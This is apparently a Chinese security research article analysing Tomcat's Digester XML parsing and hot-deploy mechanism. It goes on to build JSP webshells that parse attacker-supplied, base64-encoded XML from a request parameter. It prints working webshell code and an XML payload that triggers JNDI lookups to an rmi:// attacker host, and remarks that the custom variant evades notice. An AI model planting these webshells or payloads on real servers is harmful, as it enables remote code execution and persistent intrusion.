# Tomcat解析XML引入的新颖webshell构造方式-先知社区

> **来源**: https://xz.aliyun.com/news/18174  
> **文章ID**: 18174

---

# 前言

分析Tomcat解析XML配置文件的策略以及这个过程中导致的安全问题

# Tomcat解析XML机制

## 流程分析

### web.xml的扫描

首先我们从Bootstrap#main Tomcat启动位置开始分析，其在启动过程中将会反射调用`Catalina#load`方法进行一个server实例的创建



首先是创建了一个`Digester`

之后会通过一系列不同的方式获取到Tomcat的配置文件`server.xml`的输入流



之后会调用前面创建的Digester实例的`parse`对文件内容进行解析





接下来会在`Digester#startElement`方法中对匹配到的标签按照对应的规则进行处理



具体的处理逻辑大致存在三个步骤：



1. 如果匹配的标签存在有`classname`属性值，则将会调用`ObjectCreateRule`规则进行对应类的实例化，在实例化之后会将其加入`digester`的栈中
2. 在实例化之后，将会调用`SetPropertiesRule#begin`进行第二条规则的调用，进行属性的赋值其核心是首先获取到匹配到的标签的属性名之后通过调用`IntrospectionUtils#setProperty`方法对获取到的属性值进行赋值，具体的赋值过程如下：首先是将属性名进行规则化后同`set`关键词进行拼接，使得其满足setter方法的命名规则其次，通过反射获取上面实例化类的所有方法集合，若这个方法集合中存在有对应的setter方法，将会反射调用该setter方法后续同样对`setFoo(int/boolean)`等类型的setter方法进行了处理值得注意的是，在这里的setter方法调用过程中，针对`setProperty`的调用进行了特殊的处理，如果传入的参数`invokeSetProperty`为true时才允许对`setProperty`方法进行调用，动态跟踪了一下，在扫描XML配置文件的过程中，该过程仅会通过`public static boolean setProperty(Object o, String name, String value)`进行setter方法的处理，该方法对应的`invokeSetProperty`恒为true，这样就导致了我们能够通过调用`setProperty`函数进行系统属性的覆盖，达到高版本JNDI限制绕过等等目的。
3. 最后就是调用`SetNextRule#begin`默认未对其进行实现

### Tomcat启动



上图为Tomcat的架构图

在解析web.xml文件之后会创建一个server并启动



在启动这个server之后，将会依次启动`Server` `Service` `Engine` `Host`

```
start:1568, HostConfig (org.apache.catalina.startup)
lifecycleEvent:308, HostConfig (org.apache.catalina.startup)
fireLifecycleEvent:123, LifecycleBase (org.apache.catalina.util)
setStateInternal:423, LifecycleBase (org.apache.catalina.util)
setState:366, LifecycleBase (org.apache.catalina.util)
startInternal:952, ContainerBase (org.apache.catalina.core)
startInternal:841, StandardHost (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
call:1412, ContainerBase$StartChild (org.apache.catalina.core)
call:1402, ContainerBase$StartChild (org.apache.catalina.core)
run$$$capture:266, FutureTask (java.util.concurrent)
run:-1, FutureTask (java.util.concurrent)
 - Async stack trace
<init>:132, FutureTask (java.util.concurrent)
newTaskFor:102, AbstractExecutorService (java.util.concurrent)
submit:133, AbstractExecutorService (java.util.concurrent)
startInternal:924, ContainerBase (org.apache.catalina.core)
startInternal:261, StandardEngine (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
startInternal:422, StandardService (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
startInternal:766, StandardServer (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
start:688, Catalina (org.apache.catalina.startup)
invoke0:-2, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
start:342, Bootstrap (org.apache.catalina.startup)
main:473, Bootstrap (org.apache.catalina.startup)
```

在Host层启动过程中，也即是`HostConfig#start`方法



将会调用`deployApps`进行应用的部署



存在三个核心方法

#### deployDescriptors调用

这个方法将会解析来自`configBase`的XML文件，具体是在catalina\_home目录下的`conf/Catalina/localhost`目录下



他会遍历在这个文件夹下的文件，并且判断是否为XML文件类型，如果没有被处理过的条件下，将会构建一个`DeployDescriptor`添加到es线程池中去，将会多线程执行`DeployDescriptor#run`方法



这里核心是调用的`HostConfig#deployDescriptor`进行处理



也会将这个目录下的XML文件通过调用`Digester@parse`进行解析，具体的解析步骤与前面的web.xml扫描类似，都是扫描特定的标签，之后检索实例化类的setter方法进行反射调用

#### deployWARs调用

这个函数方法将会对`webapps/`下的WAR包进行部署



和上一种方式类似，经过一系列的检查之后，将会创建一个`DeployWar`对象加入到线程池中去，具体的部署方法实现是在`DeployWar#run`方法





默认是创建了一个`StandardContext`作为上下文添加到`Host`层中进行管理



若开启了`deployThisXML`，也即是运行在`SecurityManager`中时将会对WAR包中的`META-INF/context.xml`文件调用`Digester#parse`进行解析，同样可以反射调用setter方法

#### deployDirectories调用

主要是针对在`webapps/`下解压的项目进行部署

大致分为以下步骤

1. 尝试获取对应文件夹（也就是`webapps/xxx/`）下的`META-INF/context.xml`文件
2. 根据不同的情况创建一个Context，默认创建的是`org.apache.catalina.core.StandardContext`，之后将这个Context添加到Host中去
3. 后续将会通过`ContextConfig#init`进行Context层的初始化这里首先会通过`createContextDigester`创建context.xml文件的解析规则之后调用`contextConfig`进行配置文件的解析对于context.xml文件的获取，这里优先使用的是`webapps/xx/`下存在的content.xml文件配置，若不存在该配置文件则采用的是默认的context.xml配置，也就是`conf/context.xml`文件后续在获取到配置文件后，通过`processContextConfig`对其进行解析核心也是利用了`Digester#parse`进行了解析，在这个过程中和上面的流程类似，也会造成setter方法的调用

### 动态恶意文件加载

上述流程主要是分析了在Tomcat的启动过程中将会通过调用`deployApps`方法进行运行在Tomcat容器下的应用进行部署，核心是通过`deployDescriptors / deployWARs / deployDirectories`来分别加载部署`conf/Catalina/localhost`、`webapps/`下未解压的WARs包和`webapps/`下已解压的文件夹应用

其中主要核心分析了XML文件的解析过程中将会触发setter方法的反射调用

然而，这仅仅是在Tomcat启动的初始阶段才会对其进行加载，只会在收到供应链攻击的情况下才会存在该类漏洞的触发！

如何在运行时Tomcat动态触发这类XML文件解析导致的setter触发呢？

具体是在`ContainerBase#startInternal`的控制下，在启动完成各个组件后，将会创建一个后台线程





这个线程用来定期的检查各个应用是否存在变动，当前会话是否过时



将会遍历所有的子层进行处理，当处理Host层时，其`backgroundProcess`方法实现使用的是父类`ContainerBase`的实现



最终将会触发`HostConfig`的生成周期事件



对Host层部署的各类应用进行周期性检查



这里存在一个if语句的判断，判断其是否开启动auto deploy的机制，其赋值阶段是在Host层的启动过程中通过判断tomcat的appBase是否是一个目录来进行决定



默认都是为true的，则默认是会对webapps目录下的应用进行热部署



这个方法同前面Tomcat启动分析的部署方法相同，通过这类热部署的机制也造成了能够针对tomcat这类容器进行动态恶意文件的加载，只要能上传恶意XML文件到指定目录下

## 总结

通过分析Tomcat启动过程中从Server -> Service -> Engine -> Host -> Context的全流程机制，分析学习了Tomcat针对配置文件XML的处理方式，以及为什么在XML文件的处理过程中将会导致setter方法的反射调用，同时分析了Tomcat扫描的XML文件包括有web.xml以及`conf/Catalina/localhost/xxx.xml` `conf/context.xml` `webapps/xx/META-INF/context.xml` `webapps/xx.war#META-INF/context.xml`

同时除了在Tomcat启动过程中将会导致XML文件的解析，同样在开启了热部署机制的前提下，利用Tomcat的动态检查的方式，其仍然能能够对运行时的Tomcat相应目录下的XML文件进行解析导致setter调用

上述分析基于Tomcat 8.5.60，经测试Tomcat9也可行

# Tomcat XML webshell构建

## 概述

前面分析了Tomcat通过`Digester#parse`进行XML配置文件的流程，以及为什么这个过程中会触发任意类方法的setter方法，这里主要是学习学习如何使用这种机制将其转化成一个jsp webshell

## 流程分析

### 前文回顾

上文中，我们通过搭建了Tomcat 8.5.60，详细的分析了解析XML文件的过程

```
processContextConfig:530, ContextConfig (org.apache.catalina.startup)
contextConfig:468, ContextConfig (org.apache.catalina.startup)
init:741, ContextConfig (org.apache.catalina.startup)
```

其核心的解析流程是在`ContextConfig#init`方法中



创建了一个`Digester`对象，将创建的对象传入到`contextConfig`进行XML的解析



这里优先待解析的XML文件源是来自StandContext的`defaultContextXml`属性值，若不存在这个属性值则选择使用Tomcat默认的`conf/context.xml`文件

其具体的解析步骤在`processContextConfig`方法的实现中



首先获取目标文件的输入流，之后调用`digester#parse`进行XML的解析，在这个步骤中将会进行标签的匹配，之后经过以下三步



1. 第一步，根据其中的classname属性值指定的类名创建一个实例化类
2. 第二步，根据标签中的属性名同`set`进行赋值及处理得到一个标准的setter方法，若在上步中实例化的类中存在该方法，则反射调用该方法，这一步中触发了setter方法

### webshell实现

这里直接借用了y4tacker师傅的实现方式

```
<%@ page import="org.apache.catalina.startup.ContextConfig" %>
<%@ page import="org.apache.tomcat.util.digester.Digester" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.tomcat.util.digester.RuleSet" %>
<%@ page import="org.apache.catalina.startup.ContextRuleSet" %>
<%@ page import="org.apache.catalina.startup.NamingRuleSet" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.lang.reflect.Field" %>
<%
    // 实例化ContextConfig
    ContextConfig ctConfig = new ContextConfig();

    //获取StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stcontext = (StandardContext) req.getContext();
    stcontext.setDefaultContextXml("/tmp/context.xml");
    Field context = ContextConfig.class.getDeclaredField("context");
    context.setAccessible(true);
    context.set(ctConfig,stcontext);

    //实例化Digester对象
    Digester digester = new Digester();
    digester.setValidating(false);
    digester.setRulesValidation(true);
    HashMap<Class<?>, List<String>> fakeAttributes = new HashMap<>();
    ArrayList<String> attrs = new ArrayList<>();
    attrs.add("className");
    fakeAttributes.put(Object.class, attrs);
    digester.setFakeAttributes(fakeAttributes);
    RuleSet contextRuleSet = new ContextRuleSet("", false);
    digester.addRuleSet(contextRuleSet);
    RuleSet namingRuleSet = new NamingRuleSet("Context/");
    digester.addRuleSet(namingRuleSet);
    digester.getParser();


    //调用contextConfig函数执行利用过程
    Method contextConfig = ContextConfig.class.getDeclaredMethod("contextConfig", Digester.class);
    contextConfig.setAccessible(true);
    contextConfig.invoke(ctConfig,digester);

%>
```

分为了四个步骤

1. 模拟tomcat的处理方式，首先直接实例化一个`ContextConfig`对象，方便存储context属性对象，以及调用其`contextConfig`方法进行核心的XML文件解析逻辑
2. 之后是获取`StandardContext`：通过jsp的`request`域进行`StandardContext`对象的获取，并设置了`defaultContextXml`值指代恶意的XML文件位置
3. 之后又创建Digester对象，设置匹配的标签规则
4. 最后反射调用`contextConfig`方法进行恶意XML文件的解析

实测能够成功：



这里的报错不用管，只是因为本地没有添加tomcat的相关依赖，运行tomcat会自动使用你tomcat目录下的依赖



上述的JSP webshell利用方式需要首先上传一个恶意的XML文件后才会进行生效

基于上文中对XML文件解析细节的分析，我们知道，后续传入给`Digester#parse`的参数值仅仅是通过这里的文件得到的输入流，y4tacker师傅这里也使用了get的传参的方式进行恶意XML文件的传入

总的来说，对于XML文件的解析核心就是三个部分

1. 配置XML解析的规则
2. 获取到待解析的XML输入流
3. 直接使用`Digester#parse`进行解析，这里就会触发setter方法调用

上面构造的JSP webshell存在很多冗余操作，我们看看如何将其剔除后进行简化，我们逆向思维解决上面的三个步骤

1. **使用**`Digester#parse`**进行解析:**tomcat中是使用的parse方法传入一个`InputSource`对象进行解析观察parse这个方法重载我们可以直接传入一个`InputStream`即可，不需要重复将其包装成`InputSource`对象，同时，我们需要首先创建一个`Digester`对象才可以使用它的parse方法，这里直接使用默认的构造函数即可本部分构造如下

```
<%
    org.apache.tomcat.util.digester.Digester digester = new org.apache.tomcat.util.digester.Digester();
    digester.parse(new java.io.ByteArrayInputStream("xxx"));
%>
```

1. **获取到待解析的XML输入流：**我们只需要待传入文件的输入流，并不需要类似tomcat处理样指定一个本地文件，然后之后获取这个本地文件的输入流，最后在传给parse函数进行解析我们这里直接通过base64编码的方法进行文件内容的传输，之后封装成一个输入流类进行解析的操作本部分构造如下：

```
<%
    org.apache.tomcat.util.digester.Digester digester = new org.apache.tomcat.util.digester.Digester();
    digester.parse(new java.io.ByteArrayInputStream(java.util.Base64.getDecoder().decode(request.getParameter("cmd"))));
%>
```

1. **配置XML解析的规则:**那么最后就需要配置对应的解析规则，毕竟直接通过new的方式创建的Digester对象是一个“干净”的类对象，需要对其添加匹配规则我们首先看看tomcat是如何对其进行规则的添加的，我们回到`ContextConfig#createContextDigester`方法具体添加的规则为`addRuleSet`调用添加的`ContextRuleSet`和`NamingRuleSet`首先来看下`ContextRuleSet`添加的逻辑这里`ContextRuleSet`的构造函数没有什么特别的，就是规定一下匹配的前缀，以及定义context实例是否需要被创建我们这里核心分析下`addRuleSet`的过程前面没有什么特别的，我们重点关注，这里将会执行我们传入的`RuleSet`对象的`addRuleInstances`方法进行规则的创建，这里也是`ContextRuleSet#addRuleInstances`这里才是添加具体规则的核心逻辑so，我们可以设定我们自定义的规则进行更好的解析，比如我们可以配置对标签`Test/Loader`进行解析，甚至使用哪个属性进行类名的传递都可以自定义本部分的构造如下：

```
<%
    org.apache.tomcat.util.digester.Digester digester = new org.apache.tomcat.util.digester.Digester();
    digester.addObjectCreate("Test/Loader", null, "className");
    digester.addSetProperties("Test/Loader");
    digester.parse(new java.io.ByteArrayInputStream(java.util.Base64.getDecoder().decode(request.getParameter("cmd"))));
%>
```

经过测试，上面构造的webshell是有效的



输入的XML文件如下：

```
<?xml version='1.0' encoding='utf-8'?>
<Test>

    <Loader className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="rmi://192.168.129.1:1099/slq0x1"
             autoCommit="true"></Loader>

</Test>
```

## 总结

分析学习了Tomcat在解析XML配置文件的内在逻辑，同时了解tomcat后台线程将会动态的对某些目录下的xml文件进行扫描

也分析了通过这类XML解析的作用机制制作jsp webshell的方式方法，同时通过分析解析规则的内在逻辑，发现可以自定义标签、自定义属性名等等，在实际运行时，也发现了相比于y4tacker师傅的jsp webshell，采用自定义标签的方式不存在有错误回显提示，能够更好的隐藏自身

​

# 参考

http://www.lvyyevd.cn/archives/tomcat%E4%B8%8B%E7%9A%84%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0rce%E5%A7%BF%E5%8A%BF

https://y4tacker.github.io/2022/02/03/year/2022/2/jsp%E6%96%B0webshell%E7%9A%84%E6%8E%A2%E7%B4%A2%E4%B9%8B%E6%97%85%2F%23%E6%B5%81%E7%A8%8B&%E5%AE%9E%E7%8E%B0%E6%9E%84%E9%80%A0Webshell

https://y4tacker.github.io/2022/02/03/year/2022/2/jsp%E6%96%B0webshell%E7%9A%84%E6%8E%A2%E7%B4%A2%E4%B9%8B%E6%97%85/#%E5%8F%91%E7%8E%B0

https://blog.csdn.net/qq\_44377709/article/details/122652081

http://www.lvyyevd.cn/archives/tomcat%e4%b8%8b%e7%9a%84%e6%96%87%e4%bb%b6%e4%b8%8a%e4%bc%a0rce%e5%a7%bf%e5%8a%bf
